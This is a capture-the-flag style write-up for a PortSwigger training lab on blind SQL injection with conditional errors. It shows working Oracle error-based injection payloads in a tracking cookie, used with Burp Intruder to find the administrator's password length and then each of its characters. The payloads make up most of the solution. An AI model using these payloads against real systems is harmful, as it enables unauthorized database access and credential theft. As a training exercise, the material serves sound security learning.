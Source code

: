 # [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    ```http
    GET /login HTTP/1.1
    Host: 0afa00310492715fc04e4ad100b30028.web-security-academy.net
    Cookie: TrackingId='; session=ycENcTtu8h6unVYLddxjbGHwamrBBYGy
    ```

    - result: 500
    - => The server will return an error if the query syntax is incorrect

2. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

3. Determine the length of admin password:

    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a64001f0343d514c3733e73004a00e0.web-security-academy.net
        Cookie: TrackingId=R'+UNION+SELECT+CASE+WHEN+username='administrator'+AND+LENGTH(password)%3d§§+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--
        ```

    - payloads: 1-> 30
    - result: 20

4. Find password: use SUBSTR (oracle) and burp's intruder.

    - attack mode: cluster bomb
    - positions:

    ```http
    GET / HTTP/1.1
    Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
    Cookie: TrackingId='+UNION+SELECT+CASE+WHEN+username='administrator'+AND+SUBSTR(password,§§,1)%3d'§§'+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--;
    ```

    - payloads:
    - Set 1: 1->20 (password length)
    - Set 2: a->z, A->Z, 1->9
    - filter: response status code 500
    - result:
        ![result.png](./../img/lab-12-result.png)

5. Login to admin account => Lab Solved

6. Better Solution:

    ```sql
    xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    ```
